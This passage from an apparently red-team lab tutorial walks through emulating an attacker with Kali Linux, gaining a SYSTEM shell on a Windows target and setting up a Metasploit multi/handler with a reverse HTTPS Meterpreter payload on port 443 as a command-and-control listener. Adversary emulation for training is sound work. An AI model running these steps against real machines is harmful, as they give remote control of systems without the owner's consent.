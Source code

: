 You may need to change the Windows Firewall profile from Public to Private to allow the connection.  Once this is confirmed, type `run` to execute:

![](images/Kali%20Linux/image042.png)<br><br>

A service is created and you now have a shell running as SYSTEM on the target machine.

Check the target machine to see what process the service started:

![](images/Kali%20Linux/image043.png)<br><br>


#### HTA with PowerShell Payload

X used Cobalt Strike to generate HTA files with a PowerShell payload.  We can simulate this with Kali.

First, terminate the meterpreter session from above by typing `exit` in msfconsole.

Switch to the multi/handler and configure it for the HTA's payload we're about to create:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 192.168.1.18
set LPORT 443
run
```

The C2 server should now be listening on port 443:

![](images/Kali%20Linux/image046.png)<br><br>
